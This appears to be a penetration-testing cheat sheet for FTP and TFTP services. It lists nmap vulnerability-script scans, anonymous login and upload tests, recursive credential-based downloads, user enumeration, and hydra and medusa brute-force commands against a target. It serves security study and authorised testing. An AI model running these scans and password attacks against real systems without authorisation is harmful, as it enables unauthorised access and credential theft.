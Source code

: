 # FTP (TCP 21) | TFTP (UDP 21)

nmap check

```
 nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -Pn -oN nmap/ftpVuln -p 21 $IP
 
 nmap --script=*ftp* --script-args=unsafe=1 -p 20,21 $IP
```



Anonymous access and try upload

```
ftp ip
ftp> USER anonymous
ftp> PASS anonymous/empty password
ftp> put file //test uploading
ftp> get file//test download

```



Download all files

```
 wget -r ftp://user:pass@$IP/
 wget -r --user="user" --password="secret" ftp://$IP/
```



users enumerate

[https://github.com/pentestmonkey/ftp-user-enum](https://github.com/pentestmonkey/ftp-user-enum)

```bash
ftp-user-enum.pl -U users.txt -t $ip //solaris

ftp-user-enum.pl -M iu -U users.txt -t $ip //ftpd
```



default credentials

```
 hydra -s <PORT> -C usr/share/wordlists/ftp-default-userpass.txt -u -f $IP ftp
```



bruteforce attacks

```
// for know username
hydra -l $user -P /usr/share/john/password.lst ftp://$ip:21

hydra -l $user -P /usr/share/wordlistsnmap.lst -f $ip ftp -V

medusa -h $ip -u $user -P passwords.txt -M ftp

```

